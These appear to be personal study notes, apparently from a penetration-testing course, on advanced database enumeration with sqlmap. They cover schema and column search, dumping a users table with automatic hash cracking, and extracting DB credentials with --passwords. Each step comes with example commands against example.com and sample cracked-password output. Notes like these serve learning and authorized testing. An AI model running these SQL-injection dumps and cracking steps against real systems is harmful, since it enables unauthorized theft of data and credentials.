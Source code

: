 
***
###### `Title :- Advance Database Enumeration`
###### `Created on :- 2023-06-23 - 20:11`
###### `Created by:- Prem J`
***

#### `DB Schema Enumeration -->`

- To perform schema enumeration we add the `--schema` switch.

#### `Searching for Data -->`

- When dealing with complex databases there would be numerous databases involved, at this point the `--search` option would be of great use.
- This option enables to search for an identifier by using the `LIKE` operator internally similar to [[SQL Injection - manual and automated/SQL Injection - Automated/Database Enumeration/Database Enumeration#`Conditional Enumeration -->`|Database Enumeration]].

```shell-session
sqlmap -u "http://www.example.com/?id=1" --search -T user #table search
sqlmap -u "http://www.example.com/?id=1" --search -C pass #colmn search
```

>[!Note]
>Switch `--dump` is not compatible with `--search`

#### `Password Enumeration and Cracking -->`

- Once we identify a table containing passwords (e.g. `master.users`), we can retrieve that table with the `-T` option, as previously shown.
- SQLMap has automatic password cracking capabilities. Upon retrieving any value that resembles known hashes, SQLMap performs a dictionary-based attack on the found hashes.

```shell-session
premjampuram@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users

...SNIP...
do you want to crack them via a dictionary-based attack? [Y/n/q] Y

[14:31:41] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:31:41] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:31:41] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:31:41] [INFO] starting 8 processes 
[14:31:41] [INFO] cracked password '05adrian' for hash '70f361f8a1c9035a1d972a209ec5e8b726d1055e'                                                                                                         
[14:31:41] [INFO] cracked password '1201Hunt' for hash 'df692aa944eb45737f0b3b3ef906f8372a3834e9'                                                                                                         
...SNIP...
[14:31:47] [INFO] cracked password 'Zc1uowqg6' for hash '0ff476c2676a2e5f172fe568110552f2e910c917'                                                                                                        
Database: master                                                                                                                                                                                          
Table: users
[32 entries]

...SNIP...
```

>[!Note]
>Hash cracking attacks are performed in a multi-processing manner, based on the number of cores available on the user's computer. Currently, there is an implemented support for cracking 31 different types of hash algorithms, with an included dictionary containing 1.4 million entries (compiled over the years with most common entries appearing in publicly available password leaks). Thus, if a password hash is not randomly chosen, there is a good probability that SQLMap will automatically crack it.

#### `DB Users Password Enumeration and Cracking -->`

- Apart from user credentials found in DB tables, we can also attempt to dump the content of system tables containing database-specific credentials (e.g., connection credentials). To ease the whole process, SQLMap has a special switch `--passwords` designed especially for such a task.

```shell-session
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

>[!tip]
>The `--all` switch in combination with the `--batch` switch, will automatically do the whole enumeration process on the target itself, and provide the entire enumeration details.
>
>This basically means that everything accessible will be retrieved, potentially running for a very long time. We will need to find the data of interest in the output files manually.





